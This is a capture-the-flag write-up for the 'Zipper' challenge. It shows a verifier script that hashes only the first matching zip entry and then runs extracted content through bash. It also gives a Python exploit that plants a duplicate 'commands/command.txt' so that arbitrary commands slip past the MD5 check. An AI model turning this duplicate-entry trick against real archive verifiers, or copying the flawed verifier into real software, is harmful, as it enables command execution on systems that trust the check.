

# Zipper

## Challenge description

NOTE: echo 'Hello world' is the only "allowed" command. Do not bruteforce other commands.

One of our spies has stolen documentation relating to a new class of missiles. Can you figure out how to hack them?

"We have developed a new protocol to allow reprogramming missiles in flight. We send a base64 encoded string representing a specifically formatted zip file to control these missiles. The missiles themselves verify each command before executing them to ensure that a hacker cannot manipulate them."

A sample message has also been stolen by our spy.

By Aadhithya (@aadhi0319 on discord)

### Attachaments

- **nc betta.utctf.live 12748**

- **commands.zip.b64**
  UEsDBAoAAAAAADmPYVYAAAAAAAAAAAAAAAAJABwAY29tbWFuZHMvVVQJAAN95v9jfeb/Y3V4CwABBOgDAAAE6AMAAFBLAwQKAAAAAAAtj2FWWhLOtxMAAAATAAAAFAAcAGNvbW1hbmRzL2NvbW1hbmQudHh0VVQJAANm5v9jZub/Y3V4CwABBOgDAAAE6AMAAGVjaG8gJ0hlbGxvIFdvcmxkISdQSwMEFAAAAAgAMY9hVpwcB1ZUAAAAaQAAABIAHABjb21tYW5kcy9SRUFETUUubWRVVAkAA27m/2Nu5v9jdXgLAAEE6AMAAAToAwAANcrtDYAgDEXRVd4Axh0cpUKjxPIRWhS2l5j47yb3bArJ6QApXI6Rkl+t2+xkFJKCSqn5Zv9fXWAnQ4caRzxBBNzZNWMEwwSoLDQ+VFmbmGInd60vUEsBAh4DCgAAAAAAOY9hVgAAAAAAAAAAAAAAAAkAGAAAAAAAAAAQAO1BAAAAAGNvbW1hbmRzL1VUBQADfeb/Y3V4CwABBOgDAAAE6AMAAFBLAQIeAwoAAAAAAC2PYVZaEs63EwAAABMAAAAUABgAAAAAAAEAAACAgUMAAABjb21tYW5kcy9jb21tYW5kLnR4dFVUBQADZub/Y3V4CwABBOgDAAAE6AMAAFBLAQIeAxQAAAAIADGPYVacHAdWVAAAAGkAAAASABgAAAAAAAEAAACAgaQAAABjb21tYW5kcy9SRUFETUUubWRVVAUAA27m/2N1eAsAAQToAwAABOgDAABQSwUGAAAAAAMAAwABAQAARAEAAAAA

- **verify_hash.py**

```py
import hashlib
import os
import sys
import sys
import zipfile

def get_file(name, archive):
    return [file for file in archive.infolist() if file.filename == name][0]

archive = zipfile.ZipFile(sys.argv[1])
file = get_file("commands/command.txt", archive)
data = archive.read(file)
md5 = hashlib.md5(data).hexdigest()

if md5 == "0e491b13e7ca6060189fd65938b0b5bc":
    archive.extractall()
    os.system("bash commands/command.txt")
    os.system("rm -r commands")
else:
    print("Invalid Command")
```

---

## Finding the solution

First of we decode de base64 string from 'commands.zip.b64'. I used the following python script to decode and create the archive.

```py
import base64

with open('commands.zip.b64','r') as f:
    b64_encoded = f.read()

content = base64.b64decode(b64_encoded)

with open('commands.zip','wb') as f:
    f.write(content)
```

After unziping the said archive we have the following file structure:



The important part is inside '**command.txt**':

```sh
echo 'Hello World!'
```

Now I looked back at the 'verify_hash.py'. It takes as arguments a zip archive, do note the archive is not unzipped yet. Then the call for the get_file function searches for the file specified in the first parameter of the function, returning the **first** occurence. After that we read that file, and check if the md5 of the file contents. If it maches a certain value, we extract all the archive and execute the command inside the 'commands/command.txt' file, otherwise we get an error message.

First thought that came to mind was to change the content of the command.txt file with other command shells, but to have the same md5 hash, as md5 is known for hash collision. But to find such a hash and keeping it a valid bash command would take a lot of time and resourches (not sure its even possible...).

Looking back at the code, one thing stood up, the fact that we check the md5 hash only for the first occurence in the zipped archive. What would happen if we had more than one occurence of the same file inside the said archive? Found [this forum post](https://superuser.com/questions/224164/how-is-it-that-during-extraction-of-a-zip-i-get-two-files-of-the-same-name-in-t) to confirm my suspicions, and came up with the following solution. If we put 2 files named 'commands/command.txt' inside the archive, the get file function will get the first file that will bypass the md5 hash check, while the second file will overwrite the first one at the archive extraction time, running the commad we will store inside the said second file.

---

## Exploit

I put the original extracted commands.zip archive content inside 2 folders, one for the md5 hash check with no changes (named md5), and one for the payload where I modified the content of command.txt to run diffrent a different command (named pwn).

The following script takes the 2 command.txt file, and archives them inside the same
'commands' folder. I then tested the new archive with the 'verify_hash.py' locally and it worked. After that I also added the base64 encoding for the new archive content in order to send that to the net cat connection from the challenge description. First run I added "ls -l" inside 'pwn/commands/command.txt' to see where the flag is stored at. In retrospect I could have tried to get a shell, but the next run with 'cat flag.txt' solved the deal. The flag also has a youtube video inside, that's quite kinnda neat :)

```py
import zipfile
import base64

with zipfile.ZipFile('commands.zip', mode='w') as zip_archive:
    # contains the original file that will pass the hash check
    zip_archive.write('md5/commands/command.txt', arcname='./commands/command.txt')
    # contains the shell commands we wanna run
    zip_archive.write('pwn/commands/command.txt', arcname='./commands/command.txt')

    # payload
with open('commands.zip', 'rb') as f:
    print(base64.b64encode(f.read()))
```

### Flag: utflag{https://youtu.be/bZe5J8SVCYQ}

##### !Disclaimer! This is my first writeup, I think it's a bit long and not as concise as I would want. But opefully you like it and I'm open to feedback. Discord: @CatalinIuga#5352
